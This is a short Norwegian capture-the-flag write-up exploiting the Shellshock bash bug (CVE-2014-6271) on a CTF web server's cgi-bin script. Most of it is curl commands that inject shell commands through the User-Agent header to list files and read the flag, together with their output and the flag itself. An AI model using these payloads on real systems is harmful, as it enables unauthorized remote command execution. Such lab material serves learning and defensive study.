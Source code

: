 # ShellCOCK

TCPdump av trafikk. Ser noen av urlene inneholder cgi-bin

Ser videre pA den og prOver AA bruke shellchock vuln
```
$curl -H "User-agent: () { :;}; echo; echo vulnerable" http://challenges.ctfd.io:30034/cgi-bin/5c54360f4185244a9f5de69ad4033966
================================================
vulnerable
Content-type: text/html

<html>
  <head>
    <title>Skallsjokkert webserver</title>        
    <meta charset="UTF-8" />
    <meta http-equiv="refresh" content="0; URL='/81e64f44f76733837993268803e0a3c8'" />
  </head> 

  <body>
          <center><img alt="War-neuroses" src="/800px-War-neuroses._Wellcome_L0023554.jpg" width=300 height=386><br>
                  Source: Wikipedia
  <!-- omg! kast den i søppelkassa! -->
  </body>
</html>
```

Tester om vi har tilgang pA filer i mappen

```
$ curl -H "User-agent: () { :;}; echo; /bin/ls" http://challenges.ctfd.io:30034/cgi-bin/5c54360f4185244a9f5de69ad4033966
===============================================
5c54360f4185244a9f5de69ad4033966
flagg_f874a24ab9537a8f74a482eed3754892.txt

```

#### Ta flagg

```
$ curl -H "User-agent: () { :;}; echo; /bin/cat flagg_f874a24ab9537a8f74a482eed3754892.txt" http://challenges.ctfd.io:30034/cgi-bin/5c54360f4185244a9f5de69ad4033966
EGG{bash_prosesserer_data_etter_funksjonsdefinisjon__CVE-2014-6271}

```
